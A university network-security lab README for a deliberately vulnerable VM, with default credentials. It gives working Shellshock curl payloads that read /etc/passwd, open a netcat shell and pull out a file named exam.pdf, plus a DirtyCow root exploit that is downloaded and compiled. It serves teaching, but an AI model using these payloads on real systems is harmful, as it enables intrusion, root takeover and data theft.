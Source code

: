 # Network Security 2016 Project


### VM

Can be downloaded here: https://drive.google.com/open?id=0B5aLHLFCodGDTFBLRkQyWlJMNDg

**Important:** Check that bridged networking is enabled (Settings > Network > Adapter 1 > Attached to: Bridged Adapter)

Then you can access the webserver running on the VM from your host system.

To get the IP of the VM, start it, login and run the command 'ip addr show eth0'.

**Users:** 

* root:root
* netsec:netsec


### How to Exploit

Shellshock:
```
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo \"\"; echo \"\"; /bin/cat /etc/passwd" 192.168.1.110/cgi-bin/index.cgi
```

Reverse Shell:
```
curl -H "User-Agent: () { :; }; /bin/netcat -e /bin/bash -l -p 12345" 192.168.1.110/cgi-bin/index.cgi
```

Connect to Reverse Shell:
```
netcat 192.168.1.110 12345
```

Information Gathering:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

DirtyCow root privilege escalation:
```
cd /tmp
wget <url>/c0w.c --no-check-certificate
gcc -pthread c0w.c -o c0w
./c0w

(Wait...)

/usr/bin/passwd
id
uid=0(root) gid=0(root) groups=0(root)
```

Get Network Security exam:
```
find / -name "exam.pdf"

cp /home/netsec/exam.pdf /tmp/exam.pdf

exit

curl -H "User-Agent: () { :; }; echo \"Content-Type: application/pdf\"; echo \"\"; echo \"\"; /bin/cat /tmp/exam.pdf" 192.168.1.110/cgi-bin/index.cgi > exam.pdf
```

